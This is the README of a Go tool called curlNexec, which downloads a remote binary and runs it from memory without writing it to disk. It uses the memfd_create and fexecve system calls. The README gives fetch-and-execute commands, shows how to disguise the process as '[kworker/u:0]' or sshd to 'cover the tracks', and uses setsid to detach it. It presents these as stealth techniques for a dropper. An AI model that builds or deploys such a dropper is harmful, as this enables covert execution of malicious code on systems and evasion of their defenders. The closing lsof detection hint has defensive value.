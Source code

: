 # curlNexec

Certainly useful , mainly for fun, rougly inspired by 0x00 [article](https://0x00sec.org/t/super-stealthy-droppers/3715)

<h2 align=center>Short story </h2>

`curlNexec` enable us to execute a remote binary on a local machine in one step

 - simple usage `curlNexec <binary_raw_url>`
 - execute binary with specified program name: `curlNexec -n /usr/sbin./sshd <binary_raw_url>`
 - detach program execution from `tty`: ` setsid curlNExec [...]` 


<h2 align=center>Stealthiness story </h2>

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.


### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
`curlNexec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 
 2. Detach from tty to map behaviour of deamon process
`setsid curlNexec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```
